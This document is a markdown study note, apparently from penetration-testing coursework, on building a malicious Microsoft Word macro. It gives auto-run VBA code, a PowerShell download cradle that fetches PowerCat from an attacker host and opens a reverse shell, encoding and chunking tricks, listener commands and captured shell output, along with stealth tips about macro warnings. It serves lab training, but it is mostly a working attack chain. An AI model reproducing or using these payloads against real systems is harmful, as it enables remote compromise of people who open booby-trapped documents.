

---
tags:
  - client-side-attacks
  - office-macros
  - vba
  - powershell
  - reverse-shell
  - powercat
  - phase/exploitation
---

# Leveraging Microsoft Word macros

> [!tip] Quick Reference
> | Goal | Detail |
> |------|--------|
> | Save with a persistent macro | Use `.doc` or `.docm` — **not** `.docx` (can't save/persist macros) |
> | Save destination | Select the actual document (not `Normal.dotm` / global template) in the Macros dialog |
> | Auto-run on open | Define both `AutoOpen()` and `Document_Open()`, both calling your payload sub |
> | Base64-encode a PowerShell command | Must be **UTF-16LE** — any other charset breaks `-enc` |
> | VBA literal string limit | 255 chars — build via `Dim Str As String` + concatenation instead |

## Visual Flow



## What a macro actually is

VBA macros get **full access to ActiveX objects and the Windows Script Host** — comparable in power to JavaScript in an HTA. Macros remain one of the oldest and best-known client-side vectors, and still work well *if* the considerations from [[Preparing the attack]] are handled and the victim can be convinced to enable them.

> [!info] Why not DDE or OLE instead?
> Older vectors like Dynamic Data Exchange and Object Linking and Embedding no longer work reliably without significant system modification — macros are the vector that's actually still viable.

## File format matters

Save as **`.doc`** (legacy binary format) or **`.docm`** — **not `.docx`**. The modern `.docx` format can't persist an embedded macro at all; a macro can *run* in a `.docx` session but won't survive being saved back into the file.

> [!danger] The easiest way to fail this entire attack
> In the Macros dialog, the **"Macros in"** dropdown must point at the **actual document** (e.g. `Document1 (document)`), not the global template (`Normal.dotm`). Pick the wrong target and the macro never travels with the file — it stays local to your own Word installation and does nothing on the victim's machine.

## Building the macro

**View tab → Macros → Macros dialog → name it (`MyMacro`) → select the document in "Macros in" → Create.** This opens the VBA editor with an empty skeleton:

```vb
Sub MyMacro()
'
' MyMacro Macro
'
'
End Sub
```

> [!tip] Sub vs. Function
> A **Sub** doesn't return a value and can't be used in an expression — a **Function** does. Macros are Subs.

**Step 1 — prove code execution.** `CreateObject` instantiates a Windows Script Host Shell object; `.Run` launches an application:

```vb
Sub MyMacro()
  CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

**Step 2 — make it auto-run.** Macros don't execute just because a document opens — wrap the payload in both `AutoOpen()` and `Document_Open()`. They cover slightly different launch contexts (how Word/the document was opened), so both are used together for reliability:

```vb
Sub AutoOpen()
  MyMacro
End Sub
Sub Document_Open()
  MyMacro
End Sub
Sub MyMacro()
  CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

Save, close, and reopen — Word shows `SECURITY WARNING Macros have been disabled. [Enable Content]`. Clicking **Enable Content** pops a PowerShell window, confirming execution.

## Step 3 — escalate to a real reverse shell

Swap the simple PowerShell launch for a **download cradle + PowerCat**:

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<LHOST>/powercat.ps1');powercat -c <LHOST> -p 4444 -e powershell
```

> [!danger] UTF-16LE, not UTF-8
> PowerShell's `-enc` flag expects **base64-encoded UTF-16LE** specifically. Encode with any other charset and the payload silently fails to run. Encode it with `pwsh` on Kali (same technique as the Common Web Application Attacks module).

**VBA's 255-character literal string limit** means the full base64 blob can't be pasted as one string — but that limit only applies to *literals*, not variables. Fix: declare `Dim Str As String` and build it from many short chunks:

```vb
Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

Use this Python helper to split an encoded command into 50-character chunks, formatted as ready-to-paste VBA lines:

```python
str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwA..."
n = 50
for i in range(0, len(str), n):
    print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Final macro shape:

```vb
Sub AutoOpen()
    MyMacro
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
    Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
    Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ' ... more 50-character chunks from the Python helper ...
    Str = Str + "A== "
    CreateObject("Wscript.Shell").Run Str
End Sub
```

## Catching the shell

```bash
# On Kali, in the powercat.ps1 directory
python3 -m http.server 80
nc -nvlp 4444
```

Reopen the saved document. The web server logs a `GET /powercat.ps1`, and the listener catches:

```
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.196] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\offsec\Documents>
```

> [!warning] The security warning only appears once per filename
> Once **Enable Content** has been clicked, reopening the *same* document again does **not** re-show the macro warning — it silently re-executes. The warning only reappears if the document's **name changes**. Relevant both for stealth (repeat opens go unnoticed) and for testing (rename the file to force the prompt back).

> [!success] What a working attack chain looks like
> Reopening the document produces zero visible errors, a `GET` request for the payload hits your web server, and the listener catches a shell within seconds — all from the victim just double-clicking a file they were told was safe.

> [!danger] Common pitfalls
> - Saving as `.docx` — the macro won't persist at all.
> - Selecting the global template instead of the document in the Macros dialog — the macro never travels with the file.
> - Encoding the PowerShell command in the wrong charset — must be UTF-16LE for `-enc` to work.
> - Forgetting the listener/web server must be running **before** the document is reopened.

> [!tip] Beginner note
> The VBA 255-character limit is specifically on **string literals** — a `Dim`'d variable has no such cap, which is exactly why splitting into chunks and concatenating (`Str = Str + "..."`, repeated) works around it.

## Lab question answers

**"What keyword is used to declare a variable in VBA?"** → **`Dim`** — directly from the material: *"we'll declare a string variable named Str with the `Dim` keyword."*

> [!info] Second lab question is a genuine hands-on exercise
> Uploading `ticket.doc` to the TICKETS VM and reading `flag.txt` from the Administrator's desktop requires actually running the exercise against your own live lab instance — the flag value is unique to your environment, so that one's on you to complete and verify.

## Resources
- [PowerCat (GitHub)](https://github.com/besimorhino/powercat)
- [Microsoft VBA language reference](https://learn.microsoft.com/en-us/office/vba/api/overview/language-reference)

---
%% graph-links %%
## Related
- [[Preparing the attack]]
- [[Installing Microsoft Office]]
- [[Identifying risks of malicious Office macros]]
- [[🔣 Encoding Reference]]
- [[Obtaining code execution via Windows library files]]

> [!info] Navigation
> Section: [[Client-Side Attacks/Exploiting Microsoft Office/_index|Exploiting Microsoft Office]] · Home: [[🏠 Home]]
